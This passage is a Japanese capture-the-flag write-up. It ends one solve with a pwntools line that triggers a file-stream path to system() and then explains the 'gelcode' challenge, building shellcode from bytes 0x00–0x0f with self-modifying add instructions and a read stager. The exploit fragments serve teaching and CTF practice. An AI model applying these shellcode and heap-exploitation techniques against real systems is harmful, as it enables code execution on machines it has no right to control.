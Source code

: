 ```python

# call exit to trigger _IO_flush_all_lockp -> io_wfile_sync -> system
r.sendlineafter('> ', '5')

```

# gelcode
バイト 00から0fのみ1000文字未満で構成するシェルコード問です。syscallが使えるのでpivotかけたら終わりなのでそんなに難しくないかと思いきや、わりと他の命令でやれることが少なそうなため、解けませんでした。

どうも00から0fだけで、`add byte ptr[rip+0xf], al`のような命令が書けるため、これと`add al, imm8`を組み合わせてスタックに引数を集めれば良いようです。これを頭に入れてペイロードを組み立てます。シェルコードを直接入れてもよいですが、stager派なのでreadします。以下のようにしてみました。

```
push 0; push 0; push rdx; push 0xf0f; pop rdx; pop rsi; pop rdi; pop rax;
```

rdxに飛び先のアドレスがあるので、あとは適当な長さ0xf0fと、0が2つあれば他のレジスタがどうなっていても上手くいきます。具体的に命令は以下のようにして記述しました。

```python
 # rax 0x6a
 payload += '\x04\x0f' * 7
 payload += '\x04\x01'
 
 # push 0
 payload += '\x00\x05\x00\x00\x00\x00'
 payload += '\xff\x00'
 ```

'\xff'の部分を上の`\x00\x05\x00\x00\x00\x00`によって書き込むので、これで1つずつpushとpopを繰り返します。書き込みに必要なのはraxだけなので、最後にraxをセットしてsyscallでreadを呼び出し、シェルコードを入れます。

変な制限がかかっているときに使える命令の探し方を考える必要があります。
